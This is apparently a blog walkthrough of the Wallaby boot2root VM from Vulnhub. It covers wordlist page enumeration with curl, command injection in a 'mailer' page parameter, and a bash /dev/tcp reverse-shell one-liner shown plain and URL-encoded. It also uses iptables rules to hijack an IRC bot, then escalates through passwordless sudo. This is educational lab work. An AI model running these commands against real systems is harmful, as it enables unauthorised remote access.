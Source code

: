 +++
menu = "main"
Description = "A walkthrough of the Wallaby VM from Vulnhub"
Tags = [
  "pentesting",
  "boot2root",
]
date = "2016-12-30T19:16:02-04:00"
title = "B2R: Wallaby Walkthrough"
Categories = [
  "Pentesting",
]

+++

## Executive Summary

This machine had an unlisted but open webapp path that allowed for remote command execution. After
establishing a reverse shell as the limited user `www-data`, privilege checks showed the user was allowed to
modify firewall rules. There was also an IRC server that contained a bot that allowed command execution
through the use of the `.run` command. The command would only obey the user `waldo` so modification of the
firewall allows an attacker to kick and assume the `waldo` identity. Now the `.run` command could be run and
a reverse shell with the user `wallaby` could be established. `wallaby` had password-less sudo access, so
elevating to the root user was trivial.


## Tools Used

* nmap - service enumeration
* uniscan - webapp scanner


## Proof of Concept

Upon enumerating available services with nmap, I discovered two ports, 22 and 80. I began to scan with
`uniscan` but this failed and caused the VM to move the web application to a different port. It appeared that
automated tools were going to make this challenge harder, not easier.

After another scan, we find our new port:

![](https://i.imgur.com/U7eKOCh.png)
![](https://i.imgur.com/xuPADKd.png)


Various sorts of manual testing gave us different messages:

![](https://i.imgur.com/WwMxNnj.png)
![](https://i.imgur.com/IS2BlBh.png)

At this point, I decided to automate my enumeration of pages with a custom script.

~~~bash.prettyprint
for word in $(cat /usr/share/dirb/wordlists/common.txt); do
    
    # find pages whose last line does NOT contain the phrase 'what are you trying' ( a 404, essentially )
    curl -q "vm:60080/?page=$word" 2>/dev/null | tail -1 | grep -v 'what are you trying'

    if [[ $? -eq 0 ]]; then
        #if the last command command completed succesfully, print the word we foun
        echo $word
    fi
done | grep -v "/" # don't print results with slashes in them, they're false positives
~~~

This output yielded the pages.

~~~bash.prettyprint
contact
mailer
home
index
blacklist
name
~~~

The most interesting page here was `mailer`:

![](https://i.imgur.com/TNJEtuI.png)

I attempted to see if the `mail` query parameter actually passed through as a system command. It did:

![](https://i.imgur.com/9Yu6Zky.png)

From here we can set up a listener and run a reverse shell by feeding in url encoded commands to the `mail`
query parameter:

~~~bash.prettyprint
bash -c "bash -i >& /dev/tcp/192.168.1.177/443 0>&1"

# becomes

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.177%2F443%200%3E%261%22
~~~

![](https://i.imgur.com/tWhvBSP.png)

Enumerating this user's privileges and networking, we determine that we have control of firewall rules,
there's a rule blocking incoming requests to port 6667, and that there's an IRC server running locally.

![](https://i.imgur.com/1slTkmg.png)

![](https://i.imgur.com/uxK21ov.png)


We can clear the firewall rules with `sudo iptables -F` and connect to the IRC server from the attacking
machine.

![](https://i.imgur.com/b0NDIKS.png) 

![](https://i.imgur.com/IoX9DnK.png) 

If we try to run the `.run` command, `wallabysbot` refuses.

![](https://i.imgur.com/R5Vwo3f.png) 

The code for the and configs for the bot are located in `/home/wallaby/.sopel` and it indicates that we need
to assume the nickname `waldo` in order for us to be able to use this command. We can't do that while waldo
is still logged in so we boot them off with the use of our firewall.

~~~bash.prettyprint
sudo iptables -I OUTPUT -p tcp -m owner --uid-owner 1000 --dport 6667 -s 127.0.0.1 -j DROP
~~~

![](https://i.imgur.com/KCH7TX6.png)

In a while, after a timeout, only `waldo` should be ejected from the room, leaving the ability to steal his
nick and command the bot.

![](https://i.imgur.com/1TnwYcT.png)


With a reverse shell established, we can see that the wallaby user has full, passwordless `sudo` access. From
here, it's just one command to `root`

![](https://i.imgur.com/Ds0KVYg.png)


Thanks to Waldo and Vulnhub for this frustrating but entertaining VM!



## Additional Information

* User `waldo` is running irssi within a tmux session. The socket is located in `/tmp/tmux-1000`
* There exists an irssi DoS vulnerability that could have been used to boot the `waldo` user to assume
  control of the bot.
* The `.py` modules (which runs python commands), at the time of this writing makes an external call to an
  out-of-scope API. It does not run the python command on the target machine. 
* There are at least 3 ways to get a limited shell and at least 2 to get root.


